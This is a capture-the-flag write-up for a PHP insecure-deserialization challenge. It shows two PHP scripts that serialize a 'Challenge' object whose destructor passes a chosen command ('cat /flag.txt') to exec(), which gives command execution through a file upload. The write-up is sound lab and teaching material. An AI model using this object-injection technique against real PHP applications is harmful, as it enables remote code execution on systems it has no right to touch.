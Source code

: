 First of all, it is convinient to look for fthe function unserialize with ctrl+f+shift
then, we will find it in the file upload_user.php
Here, basically, there is a button to load a file and it unserializes the file received.
The trick is to pass a file with a Challenge object serialized instead of a User.
In this way, it is possible to use __destruct() -> stop() -> exec()
notice that the source code for the lasses is in data.php.
However, with exec you can execute  linux command.
The following code is the one used to serialized the object:
```php
<?php
class Challenge{

  public $name;
  public $description;
  public $setup_cmd="not null";
  public $stop_cmd="cat /flag.txt";

  function __construct($name, $description){
    $this->name = $name;
    $this->description = $description;
  }
}

$user = new Challenge("cane2","a");
//print_r($user);
echo serialize($user);
?> 
```

## Challange
Read the flag `flag.txt`. 
## Solution
In this website we can download the user as serialized object and then uploaded deserializing it. In data.php is present `Challange` class which is never used in the code but has two methods `start()` and `stop()` which can execute commands. The `start()` method is never invoked, but `stop()` is called when `__decostruct`. If we craft the content of the upload file by serializing the class in this way:
```php
<?php

class Challenge{
  //WIP Not used yet.
  public $name;
  public $description;
  public $setup_cmd=NULL;
  // public $check_cmd=NULL;
  public $stop_cmd="cat /flag.txt";
}

$r = new Challenge();
echo serialize($r);

?>
```
We obtain the flag when we upload the fake user, because after the data is unserialized the object reference is destroyed, calling the decostructor, executing `cat /flag.txt`.
